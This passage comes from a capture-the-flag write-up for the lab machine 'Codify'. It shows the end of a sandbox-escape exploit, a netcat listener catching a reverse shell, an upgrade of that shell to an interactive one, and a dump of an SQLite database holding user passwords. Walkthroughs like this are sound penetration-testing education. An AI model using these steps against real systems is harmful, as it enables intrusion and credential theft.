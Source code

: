 ```js
`;

console.log(vm.run(code)); // -> hacked
```

As I run the above code in the editor it just hangs in there.
![](shell_we.png)

But on the other hand there is a shell waiting for us.
```console
➜  codify nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.78] from (UNKNOWN) [10.129.240.130] 40776
bash: cannot set terminal process group (1253): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```
I'll upgrade the shell with the a simple technique.
```console
svc@codify:~$ script -qc /bin/bash /dev/null
svc@codify:~$ ^Z
[1]  + 54891 suspended  nc -nvlp 9001
➜  codify echo raw stty -echo;fg
[1]  + 54891 continued  nc -nvlp 9001

svc@codify:~$ export TERM=linux
svc@codify:~$
```
## Shell as joshua

There is nothing really much interesting in `svc`'s home directory, looking at `/var/www/`:
```console
svc@codify:~$ ls -lah ~
ls -lah ~
total 32K
drwxr-x--- 4 svc    svc    4.0K Sep 26  2023 .
drwxr-xr-x 4 joshua joshua 4.0K Sep 12  2023 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12  2023 .bash_logout
-rw-r--r-- 1 svc    svc    3.7K Sep 12  2023 .bashrc
drwx------ 2 svc    svc    4.0K Sep 12  2023 .cache
drwxrwxr-x 5 svc    svc    4.0K Nov 23 12:41 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12  2023 .profile
-rw-r--r-- 1 svc    svc      39 Sep 26  2023 .vimrc
svc@codify:/var/www/contact$ ls ../
contact  editor  html
```
I found nothing interesting in `html` or `editor` but I found `tickets.db` in `contact`. So I assume this website isn't used anymore.
```console
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
```
`ticket.db` is an `SQLite` database, I'll dump it and see what's init.
```console
svc@codify:/var/www/contact$ sqlite3 tickets.db .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
```
